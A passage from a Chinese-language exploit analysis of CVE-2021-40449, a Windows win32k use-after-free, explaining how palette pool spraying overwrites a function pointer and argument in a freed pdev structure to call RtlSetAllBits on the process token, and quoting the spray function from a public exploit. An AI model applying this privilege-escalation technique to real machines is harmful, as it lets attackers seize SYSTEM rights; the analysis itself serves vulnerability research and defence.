 ```cpp
        }
    }
}
```

可以看到，函数本意是要执行 `PFN_DrvResetPDEV` 释放 `dco->pdev`，但是该函数地址保存在 `pdev+0xab8` 位置，参数有两个，参数 1 取自 `pdev+0x708` 位置，参数 2 取自新的 `pdev`，exp 中就是利用池喷将这里替换 `RtlSetAllBits` 和 `fakedBitmap` 的指针达到修改 token 的目的。

因为 `pdev` 取自 `dco+0x30` 位置，所以：

- rfn = dco+0xae8
- arg1= dco+0x738

以 [https://github.com/KaLendsi/CVE-2021-40449-Exploit](https://github.com/KaLendsi/CVE-2021-40449-Exploit) 这个 exp 为例，其中构造 Palette 的方式：

```cpp
HPALETTE createPaletteofSize2(int size) {
	int pal_cnt = (size - 0x90) / 4;
	int palsize = sizeof(LOGPALETTE) + (pal_cnt - 1) * sizeof(PALETTEENTRY);
	LOGPALETTE* lPalette = (LOGPALETTE*)malloc(palsize);
	DWORD64* p = (DWORD64*)((DWORD64)lPalette + 4);
	memset(lPalette, 0xff, palsize);

	p[0x15B] = GadgetAddr;

	p[0xE5] = Fake_RtlBitMapAddr;


	lPalette->palNumEntries = pal_cnt;
	lPalette->palVersion = 0x300;
	return CreatePalette(lPalette);
}
```

p 是一个 `DWORD64` 类型指针，所以做一下偏移换算：

- rfn = p[0x15B] = p+0xad8
- arg1 = p[0xE5] = p+0x728

算出来的竟然与之前相对 `dco` 的偏移各自差 0x10，差出来的是 `_POOL_HEADER`，每个池开头都会有 0x10 字节的头，保存了当前池的元数据信息。

在 `win32kfull!GreResetDCInternal` 位置下断单步跟，调用 `DCOBJ::DCOBJ` 初始化后的 `dco` 指针放在 `rbx` 里：

![cve_2021_40449_1](cve_2021_40449_1.png)

之后将 `dco->pDev` 指针放在 `rbx`：

![cve_2021_40449_2](cve_2021_40449_2.png)

